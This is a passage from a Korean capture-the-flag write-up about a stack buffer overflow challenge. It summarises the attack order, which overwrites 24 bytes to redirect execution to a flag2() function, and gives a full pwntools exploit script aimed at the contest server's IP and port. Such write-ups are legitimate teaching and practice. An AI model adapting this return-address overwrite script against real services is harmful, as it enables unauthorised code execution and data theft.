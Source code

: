 

자, 다시 공격순서를 정리 해보자.

1. `comment` 에 8byte, `fp` 를 덮기 위한 8byte, SFP를 덮기 위한 8byte, 총 24byte를 덮고 나서야 `flag2()` 의 시작주소 8byte를 입력해야한다.
   * 시작 주소는 GDB Debugger를 통한 동적 디버깅으로 확인한다.
   * ![]({{site.baseurl}}/images/2018-12-09-JFS-bof_world/05.PNG)
2. `flag2()` 가 호출되면서 서버에 저장되어 있는 `flag2.txt` 를 읽어온다.
3. CLEAR!



phase_1과 합쳐진 Payload는 다음과 같다.

#### Payload

```py
from pwn import *
  
p = remote("168.188.123.207", 16164)
pr = p.recvuntil("Let's learn about it!\n")
print pr
sleep(1)
pr = p.recvuntil("Give me some bytes")
print pr
p.sendline("a"*16+p64(0x665544332211));
#p.sendline("a"*16+"\x11\x22\x33\x44\x55\x66")
pr = p.recvuntil("}") #phase_1 CLEAR!
print pr
pr = p.recvuntil("Leave a comment : ")
print pr
sleep(1)
p.sendline("A"*24+p64(0x400896)) #phase_2 CLEAR!
p.interactive(); #상호작용모드? 서버로 부터 정보를 받고 보낼 수 있음. 여기선 recv 대신 사용함
```



![]({{site.baseurl}}/images/2018-12-09-JFS-bof_world/10.PNG)



1, 2 합쳐서 150점 획득! (phase_2는 대회가 종료된 후 풀었지만😂)
